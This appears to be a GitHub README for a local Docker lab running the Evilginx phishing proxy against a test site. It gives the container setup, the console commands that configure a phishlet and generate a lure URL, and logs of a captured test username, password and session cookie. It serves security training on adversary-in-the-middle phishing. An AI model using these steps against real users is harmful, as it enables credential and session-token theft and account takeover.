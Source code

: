 # Evilginx LAB on Docker
![back](evil-dock.jpg)
## build & run the containers
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	
Verify if they run:

	docker ps -a
	CONTAINER ID   IMAGE                     COMMAND                  CREATED         STATUS         PORTS                                                                              NAMES
	d7bc39548885   evilginx_lab_evilginx2    "/bin/bash -l"           8 seconds ago   Up 6 seconds   0.0.0.0:443->443/tcp, :::443->443/tcp, 0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   evilginx3.local
	6d5eac2940a7   evilginx_lab_apache-php   "apachectl -D FOREGR…"   8 seconds ago   Up 6 seconds   80/tcp, 443/tcp                                                                    targetsite.local



## stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
## access a container

	sudo docker exec -it <container name> /bin/bash

## check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## see logs

	sudo docker logs <container name>
	
## show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/evilginx3.local - 172.18.0.10






## Start evilnginx
```bash 
sudo docker exec -it evilginx3.local /bin/bash 
root@bd1cc49349a5:/evilginx2# ./evilginx2 -developer

                                         
___________      __ __           __               
\_   _____/__  _|__|  |    ____ |__| ____ ___  ___
|    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
|        \\   /|  |  |__/ /_/  >  |   |  \>    < 
/_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
     \/              /_____/         \/      \/

        - --  Community Edition  -- -

by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[16:02:29] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[16:02:29] [inf] loading phishlets from: /evilginx2/phishlets
[16:02:29] [inf] loading configuration from: /root/.evilginx
[16:02:29] [inf] blacklist mode set to: unauth
[16:02:29] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[16:02:29] [inf] https port set to: 443
[16:02:29] [inf] dns port set to: 53
[16:02:29] [inf] autocert is now enabled
[16:02:29] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[16:02:30] [war] server domain not set! type: config domain <domain>
[16:02:30] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  
| example           | disabled  | visible     |           |             |                                                                                                                                                                  
| targetsite-local  | disabled  | visible     |           |             |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  

:  


```
                                        
## Config Evilngnix container

	: config domain evilginx3.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local evilginx3.local
	: phishlets get-hosts targetsite-local 

		172.18.0.10 login.evilginx3.local
		172.18.0.10 evilginx3.local
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
	: lures get-url 0
		
		https://login.evilginx3.local/eiyTwTXQ

## Captured the session token

: 2024/12/04 16:14:15 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[16:14:23] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (10.0.2.15)
[16:14:23] [inf] [0] [targetsite-local] landing URL: https://login.evilginx3.local/eiyTwTXQ
[16:15:04] [+++] [0] Username: [adasdas]
[16:15:04] [+++] [0] Password: [dsdsdsd]
[16:15:45] [+++] [0] Username: [admin]
[16:15:45] [+++] [0] Password: [Pwd Sicur@ 123]
[16:15:45] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip  |       time        |                                                                                                                                      
+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+                                                                                                                                      
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 10.0.2.15  | 2024-12-04 16:15  |                                                                                                                                      
+-----+-------------------+-----------+-----------------+-----------+------------+-------------------+          

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.evilginx3.local/eiyTwTXQ
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 10.0.2.15
 create time  : 2024-12-04 16:14
 update time  : 2024-12-04 16:15

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764865104,"value":"sibi2d083ecfn4shbco7i1ro5d--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]

:  


